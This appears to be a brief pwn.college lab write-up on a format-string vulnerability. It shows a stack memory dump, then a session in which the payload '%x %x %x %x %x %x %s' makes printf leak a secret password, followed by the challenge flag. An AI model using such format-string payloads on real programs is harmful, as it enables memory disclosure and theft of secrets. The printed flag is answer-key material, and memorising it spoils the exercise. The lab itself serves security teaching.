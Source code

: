
    0x7ffd3f5014d0: 0x00000004      0x00000000      0x3f501520      0x00007ffd
    0x7ffd3f5014e0: 0x00000000      0x00000000      0x00000000      0x00000000
    0x7ffd3f5014f0: 0x00000000      0x00000000      0x00000000      0x00000000
    0x7ffd3f501500: 0x00000000      0x00000000      0x00000000      0x00000000
    0x7ffd3f501510: 0x00000000      0x00000000      0x00000000      0x00000000
    0x7ffd3f501520: 0x4743444d      0x4d565156      0x5a4f435a      0x00555043
    0x7ffd3f501530: 0x00000000      0x00000000      0x00000000      0x00000000
    0x7ffd3f501540: 0x0000000f      0x0000002d      0x00000000      0x00000000

The address of the secret password is stored in the second byte


    I will now read up to 256 bytes. Send your data!
    %x %x %x %x %x %x %s
    Received 21 bytes!
    
    I will now call printf on your data!
    
    b4dc723 0 b3fd297 a 25 4 TZTRHPPWBLLOXZH
    
    What is the secret password?
    TZTRHPPWBLLOXZH
    Correct Password!
    pwn.college{Arc7h8Q5Kk6GzVN4eeCBuBRfaml.dlTM0MDL5kzM1czW}

